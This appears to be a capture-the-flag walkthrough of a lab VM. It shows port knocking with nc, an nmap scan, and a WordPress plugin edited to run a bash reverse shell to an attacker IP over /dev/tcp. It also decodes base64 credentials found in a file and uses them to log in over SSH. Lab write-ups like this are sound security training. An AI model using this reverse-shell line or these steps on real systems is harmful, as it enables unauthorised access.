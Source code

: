 ![07f1a0ea0004f33dfc67d5660318219b.png](../../resources/524559b8653c447f92af982d1ee83566.png)

Lets try knocking with `1981, 867, 5309`. Using a simple bash script I knock on the 3 ports.
```
root@kali:~# for i in 1981 867 5309
> do
> nc 192.168.86.136 $i;
> done
Ncat: Connection refused.
Ncat: Connection refused.
Ncat: Connection refused.
```
Then if I can port 22 it will now be open.
```
root@kali:~# nmap -p 22 192.168.86.136                                                                                                                                                                         
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 16:09 EDT                                                                                                                                                 
Nmap scan report for tf2 (192.168.86.136)
Host is up (0.00042s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:83:5F:89 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```
Problem is I dont have any credentials yet so ill come back to port 22 later. Now, looking at the wordpress plugins, I can give myself a reverse shell by simple editing the existing plugin to execute a reverse shell by removing the existing php code and replacing it with the single line below
```
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.135/9999 0>&1'")
```
Doing some enumeration I find that I am actually in a docker container and not on the actual system just yet. Some further enumeration will reveal a file locate `/var/www/html/wp-content/TFDocuments/nb.txt`. Inside the file is what looks like a base64 encoded string
```
$ cat nb.txt
dmVsZXRhOjlnNGx3MHI4MnF1MQo=
```
Decoding the string finally gives me some credentials.
```
$ cat nb.txt | base64 -d
veleta:9g4lw0r82qu1
```
Using those credentials I ssh in and now I am finally on the box. I run `sudo -l` to see if I can execute anything with sudo privileges and turns out I can.
```
veleta@TF2:~$ sudo -l
[sudo] password for veleta: 
```